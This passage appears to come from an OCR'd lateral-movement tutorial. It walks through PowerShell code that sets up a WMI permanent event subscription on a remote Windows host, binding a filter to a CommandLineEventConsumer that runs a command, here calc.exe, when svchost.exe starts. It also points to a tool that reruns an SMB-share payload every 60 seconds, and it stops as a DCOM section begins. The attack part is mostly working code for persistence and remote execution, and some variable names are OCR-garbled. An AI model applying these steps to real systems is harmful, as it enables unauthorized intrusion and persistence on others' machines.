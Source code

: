 ```powershell
$EventFilterArgs = @{
    EventNamespace = "root/cimv2"
    Name = "TestFilter"
    Query = "Select * from Win32_ProcessStartTrace where processname = 'svchost.exe'"
    QueryLanguage = "WQL"
}
$EventFilter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $EventFilterArgs @GlobalArgs
```

Deploy an event consumer named `TestConsumer` on the remote host, create an instance of the event consumer class `CommandLineEventConsumer`, and execute system commands when the specified event occurs:

```powershell
$CommandLinEventConsumerArgs = @{
    Name = "TestConsumer"
    CommandLineTemplate = "C:\Windows\System32\cmd.exe /c calc.exe"
}
$EventConsumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEv
entConsumer -Arguments $CommandLineEventConsumerArgs @GlobalArgs
```

Bind the created event filter and the event consumer together:

```powershell
$FilterConsumerBindingArgs = @{
    Filter = $EventFilter
    Consumer = $EventConsumer
}
$FilterConsumerBinding = Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $FilterConsumerBindingargs @GlobalArgs
```

In this way, an event subscription has been deployed on the remote host. When the remote system polls the `svchost.exe` process, the `calc.exe` process will be started by executing the system commands by the event consumer.

### Sharp-WMIEvent

Refer to the project [Sharp-WMIEvent](https://github.com/wh0amitz/Sharp-WMIEvent), the script will deploy a named permanent event subscription on the remote host and execute the attack payload in the SMB share every `60s` to bring the remote host online.

# Utilization of DCOM

## COM and DCOM

- `COM`

`COM` (`Component Object Model`, Component Object Model) is a binary interface standard composed of Microsoft's software, making inter-process communication and dynamic object creation possible across programming languages.
